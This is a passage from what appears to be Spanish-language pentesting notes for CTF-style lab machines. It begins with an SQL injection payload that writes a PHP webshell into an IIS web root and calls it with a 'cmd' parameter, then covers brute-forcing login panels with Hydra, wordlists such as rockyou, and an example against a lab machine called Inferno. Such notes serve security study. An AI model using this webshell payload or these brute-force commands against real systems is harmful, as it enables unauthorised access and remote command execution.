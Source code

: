 Si hay posibilidad de escritura nos creamos una webshell para luego llamarla y para dentro!:

`‘union select 1,”<?php system($_REQUEST[‘cmd’]); ?>”,3 into outfile “C:\\\inetpub\\wwwroot\prueba.txt”-- -`  
Igual hay que escapar las comillas del cmd para que no de problemas. Y ya desde navegador apuntas a la ruta y añades `...?cmd=COMANDO`

---

## Ataque de Fuerza Bruta

### **¿En que consiste?**

Un ataque de fuerza bruta es un intento de descifrar una contraseña o nombre de usuario, de buscar una página web oculta o de descubrir la clave utilizada para cifrar un mensaje. Consiste en aplicar el método de prueba y error con la esperanza de dar con la combinación correcta. Agradecimientos a la web de Kaspersky por la definición.

### **¿Qué veremos aquí?**
Veremos ataques de fuerza bruta a panales de login con la herramienta Hydra, Wfuzz y scripting en python.  
Para fuerza bruta en archivos y subdirectorios usaré wfuzz y gobuster.

### **Diccionarios**
Para los ataques de fuerza bruta usamos diccionarios. El que suelo usar es el de SecLists, lo encontrarás en github.  
Si los creo yo para hacer el diccionario personalizado uso herramientas tales como: Cewl, Crunch y Psudohash.

### **Explotación**

**Usando Hydra:** 

Estructura y comandos:

+ La `l` o la `p` es minúscula o mayúscula dependiendo de si quieres usar un usuario/contraseña específico o una diccionario. Para especifico en minúsculas para diccionario en mayús.

+ Si da fallo al ejecutar tienes que eliminar el hydra.restore, suele pasar cuando cancelas durante un proceso de hydra, comando:
```
> rm hydra.restore
```

+ Sobretodo usar hydra en paneles sin CSRF Token ni otros requerimientos extra.

**A paneles de sesión:**

Si la petición va por GET -recuerda que lo puedes ver en la consola del navegador-:
```
> hydra -l admin -P <diccionarioElRockyouXjemplo> <ip> <http-get> <rutaDespuesdeIp> -t <nº>
```

Ejemplo de uso visto en máquina **Inferno**:
```
> hydra -l admin -P /usr/share/wordlist/rockyou.txt 192.168.5.5 http-get /inferno -t 50
```


[hacktricks]: https://book.hacktricks.xyz/welcome/readme
[patt]: https://github.com/swisskyrepo/PayloadsAllTheThings 